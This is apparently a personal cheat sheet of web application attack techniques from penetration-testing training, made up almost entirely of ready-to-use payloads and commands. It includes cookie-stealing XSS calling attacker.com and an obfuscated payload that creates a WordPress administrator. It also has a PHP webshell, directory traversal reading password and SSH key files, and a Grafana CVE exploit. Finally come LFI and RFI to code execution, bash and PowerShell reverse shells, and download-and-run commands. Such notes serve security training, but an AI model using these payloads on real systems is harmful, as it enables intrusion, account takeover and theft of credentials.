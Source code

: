 
# Web Application Attacks

## API

REST API
json

### old version of API

### postman

## XSS

The most common special characters used for this purpose include:
< > ' " { } ;

```html
<script>alert(1)</script>
<iframe src="https://attacker.com/steal_cookie.php?c="+document.cookie></iframe>
<script>new Image().src="https://attacker.com/steal_cookie.php?c="+document.cookie;</script>

```

### BeEF

```bash
beef-xss
<script src="http://127.0.0.1:3000/hook.js"></script>
```

### WordPress

#### gather nonce

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

#### create user

```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

#### JS Compress

<https://jscompress.com/>

#### convert to UTF-16

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### execute

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

#### add plugin

<https://www.jckhmr.net/create-a-wordpress-webshell-plugin/>

```php
<?php
/**
* Plugin Name: WonderfulWebshell
* Plugin URI: https://github.com/jckhmr/wonderfullwebshell
* Description: Wordpress webshell used for demo purposes only
* Version: 1.0
* Author: jckhmr
* Author URI: https://jckhmr.net
* License: https://nosuchlicense
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

#### wpscan

<https://wpscan.com/>

```bash
wpscan --url http://
```

## Directory Traversal

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

chmod 400 id_rsa
ssh offsec@192.168.152.16 -p 2222 -i id_rsa
```

### Grafana

#### CVE-2021-43798

##### linux

<https://www.exploit-db.com/exploits/50581>

```bash
python3 CVE-2021-43798.py -H http://192.168.152.16:3000
Read file > /etc/passwd
```

##### windows

```bash
python3 CVE-2021-43798.py -H http://192.168.152.193:3000 
Read file > \\users\\install.txt

curl --path-as-is http://192.168.152.193:3000/public/plugins/text/..\\..\\..\\..\\..\\..\\..\\..\\Users\\install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../../Users/install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../..\\Users\\install.txt
```

### Apache 2.4.49

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## File Inclusion

### LFI

#### User-Agent

```
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

#### reverse shell by GET parameter

```
nc -lvnp 4444

bash -c "bash -i >& /dev/tcp/192.168.45.195/4444 0>&1"

index.php?page=../../../../../../var/log/apache2/access.log&cmd=bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E195%2F4444%200%3E%261%22
```

### PHP Wrapper

#### php://filter

```
index.php?page=php://filter/resource=admin.php

index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

#### data://

```
index.php?page=data://text/plain,<?php%20echo%20system($_GET["cmd"]);?>

index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

### RFI

```
python3 -m http.server 80

index.php?page=http://192.168.45.235/simple-backdoor.php&cmd=ls
```

## File Upload

### Using Executable Files

### Using Non-Executable Files

```bash
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
...

cat fileup.pub > authorized_keys

../../../../../../../../root/.ssh/authorized_keys
```

## Command Injection

### found injection symbols

` = %60

`" " ' ; | & && || $ ( )`

<https://gabb4r.gitbook.io/oscp-notes/cheatsheet/command-injection-cheatsheet>

### execute command

```

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

```

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.223/powercat.ps1");powercat -c 192.168.45.223 -p 4444 -e powershell

IEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.235%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.235%20-p%204444%20-e%20powershell
```

## SQL Injection

